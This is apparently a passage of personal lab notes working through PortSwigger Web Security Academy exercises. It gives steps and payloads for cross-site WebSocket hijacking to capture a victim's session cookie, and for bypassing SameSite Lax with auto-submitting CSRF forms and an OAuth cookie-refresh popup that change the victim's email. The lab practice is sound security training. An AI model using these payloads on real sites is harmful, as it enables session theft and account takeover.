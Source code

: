 - URL encode it
- go to exploit server and take the url encoding payload and place it in the uesrname parameter in the script block below

```
<script>
    document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
</script>
```

- confirm it works and you see your session cookie in the latest `GET /chat` message
- deliver this to victim

### SameSite Lax bypass via cookie refresh

- in exploit server

```
<script>
    history.pushState('', '', '/')
</script>
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```

- either you will be logged in when exploited based on whether the user logged in the last 2 minutes

**Now we need to bypass samesite restrictions**
- notice whenever visiting `/social-login` the oauth flow happens and sends a new session cookie even if you were already logged in
- go back to the exploit server and change the payload as such:

```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@web-security-academy.net">
</form>
<script>
    window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```

- store and view the exploit and observe that the initial request gets blocked by the browsers popup blocker
